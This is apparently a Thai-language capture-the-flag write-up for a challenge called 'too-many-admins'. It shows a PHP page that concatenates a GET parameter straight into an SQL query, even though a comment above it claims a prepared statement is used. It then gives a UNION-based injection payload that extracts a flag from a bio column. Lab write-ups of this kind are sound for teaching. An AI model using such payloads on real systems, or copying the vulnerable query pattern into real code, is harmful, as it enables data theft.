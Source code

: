 # too-many-admins

ข้อนี้เราจะได้ไฟล์โปรเจคมาด้วย
ครับวิเคราะห์ครับ☹️

## dump.sql
```sql
-- Create the 'users' table
CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255),
    password VARCHAR(255),
    bio TEXT
);

-- Insert 500 random values into the 'users' table
DELIMITER //
CREATE PROCEDURE GenerateRandomUsers()
BEGIN
    DECLARE i INT DEFAULT 0;
    WHILE i < 500 DO
        IF i = {SOME_NUMBER} THEN
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                'REDACTED',
                'Flag{REDACTED}'
            );
        ELSE
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                MD5(CONCAT('admin',i,RAND())),
                CONCAT('Bio for admin', i)
            );
        END IF;
        SET i = i + 1;
    END WHILE;
END //
DELIMITER ;

-- Call the procedure to generate random users
CALL GenerateRandomUsers();

-- Drop the procedure (optional)
DROP PROCEDURE IF EXISTS GenerateRandomUsers;
```

คร่าวๆก็คือว่า มันจะสร้าง account มา 500 ตัว ซึ่งตัวที่ {SOME_NUMBER} จะมี flag อยู่ใน bio


## index.php
```php
...
$userParam = $_GET['user'];
// Use prepared statement to prevent SQL injection
if ($userParam) {
    if ($userParam != "all") {
        $query = "SELECT username, password, bio FROM users where username = '$userParam' ";
    } else {
        $query = "SELECT username, password, bio FROM users ";
    }
    $result = $conn->query($query);
    // Display the result in a table
    echo "<table border='1'>";
    echo "<tr><th>S.no</th><th>Username</th><th>Password(MD5 hashes)</th></tr>";
    // Fetch and display the data
    $i = 0;
    while ($row = mysqli_fetch_row($result)) {
        echo "<tr><td>" . $i . "</td><td>" . $row[0] . "</td><td>" . $row[1] . "</td></tr>";
        $i++;
    }
    echo "</table>";
}
...
```
คร่าวๆคือเราจะพบว่ามันสามารถ sql injection ได้
~แจ๋วสิครับ ซึ่งแนวคิด inject ก็ง่ายๆ โค้ด sql เดิมๆมันจะ select username, password, bio และก็จะแสดงผล แค่ username, password ซึ่ง flag มันอยู่ที่ bio ของ account ใครสักคน
ผมก็เลย UNION account ที่มี flag อยู่ใน bio ด้วยคำสั่ง LIKE และแทนที่ bio ลงไปใน column username เพื่อให้มันแสดงผลออกมา

payload ก็จะได้เป็นประมาณนี้

```sql
' UNION SELECT bio as username, 'b' as password, 'b' as bio FROM users WHERE bio LIKE 'flag{%';-- -
```

ครับได้ flag

![flag](flag.png)

